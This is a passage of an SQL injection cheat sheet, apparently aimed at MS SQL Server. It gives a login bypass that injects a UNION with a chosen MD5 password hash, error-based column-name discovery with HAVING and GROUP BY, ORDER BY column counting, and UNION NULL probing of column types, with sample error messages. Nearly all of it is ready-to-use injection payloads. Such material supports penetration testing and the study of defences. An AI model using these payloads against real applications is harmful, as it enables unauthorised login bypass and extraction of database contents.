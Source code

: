 #### Bypassing MD5 Hash Check Example (MSP)

Username :`admin' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055'`  
Password : `1234`

`81dc9bdb52d04dc20036dbd8313ed055 = MD5(1234)`

### Error Based - Find Columns Names

#### Finding Column Names with **HAVING BY** - Error Based (S)

_In the same order,_

-   ' `HAVING 1=1 --`
-   `' GROUP BY **table.columnfromerror1** HAVING 1=1 --`
-   `' GROUP BY **table.columnfromerror1, columnfromerror2** HAVING 1=1 --`
-   `' GROUP BY **table.columnfromerror1, columnfromerror2, columnfromerror(n)** HAVING 1=1 --` _and so on_
-   If you are not getting any more error then it's done.

#### Finding how many columns in SELECT query by **ORDER BY** **(MSO+)**

Finding column number by ORDER BY can speed up the UNION SQL Injection process.

-   `ORDER BY 1--`
-   `ORDER BY 2--`
-   `ORDER BY N--` _so on_
-   Keep going until get an error. Error means you found the number of selected columns.

### Data types, UNION, etc.

#### Hints,

-   Always use **UNION** with **ALL** because of **image** similar non-distinct field types. By default union tries to get records with distinct.
-   To get rid of unrequired records from left table use -1 or any not exist record search in the beginning of query (_if injection is in WHERE_). This can be critical if you are only getting one result at a time.
-   Use NULL in UNION injections for most data type instead of trying to guess string, date, integer etc.
    -   Be careful in Blind situtaions may you can understand error is coming from DB or application itself. Because languages like ASP.NET generally throws errors while trying to use NULL values (_because normally developers are not expecting to see NULL in a username field_)

#### Finding Column Type

-   `' union select sum(**columntofind**) from **users**--` (S)   
    `Microsoft OLE DB Provider for ODBC Drivers error '80040e07'   
    [Microsoft][ODBC SQL Server Driver][SQL Server]The sum or average aggregate operation cannot take a **varchar** data type as an argument.`   
      
    _If you are not getting an error it means_ column is numeric.
-   Also you can use CAST() or CONVERT()
    -   `SELECT * FROM Table1 WHERE id = -1 UNION ALL SELECT null, null, NULL, NULL, convert(image,1), null, null,NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULl, NULL--`
-   `11223344) UNION SELECT NULL,NULL,NULL,NULL WHERE 1=2 –-`   
    No Error - Syntax is right. MS SQL Server Used. Proceeding.
-   `11223344) UNION SELECT 1,NULL,NULL,NULL WHERE 1=2 –-`   
    No Error – First column is an integer.
-   `11223344) UNION SELECT 1,2,NULL,NULL WHERE 1=2 --`   
    Error! – Second column is not an integer.
-   `11223344) UNION SELECT 1,'2',NULL,NULL WHERE 1=2 –-`   
    No Error – Second column is a string.
-   `11223344) UNION SELECT 1,'2',3,NULL WHERE 1=2 –-`   
    Error! – Third column is not an integer. ...   
